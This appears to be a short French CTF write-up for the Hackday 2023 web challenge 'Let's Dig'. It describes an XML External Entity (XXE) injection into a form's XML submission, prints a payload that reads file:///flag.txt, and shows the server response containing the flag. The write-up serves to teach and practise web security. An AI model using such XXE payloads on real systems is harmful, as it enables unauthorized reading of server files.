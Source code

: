 ```yaml
---
layout: post
title: Hackday_2023 - Let's Dig
date: 2023-03-21 21:51 +0100
categories: Web
---
```


## Let's dig

https://7fcf29753d2.hackday.fr <br>
https://7fcf29753d2.hackday.fr/process.php


Le flag se trouve à la racine dans un fichier flag.txt. on remarque vite un questionnaire et un fichier js qui envoie un xml des réponses au serveur.
Pour récupérer le flag il faut faire une injection xxe en modifiant l'envoie du formulaire.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root><name>
&xxe;</name><tel>fds</tel><email>eee
</email></root>
```

flag : 

```bash
Thank you 
HACKDAY{62e2eeae3d450e008bd353f57f4be401}
, you're successfully registered
```
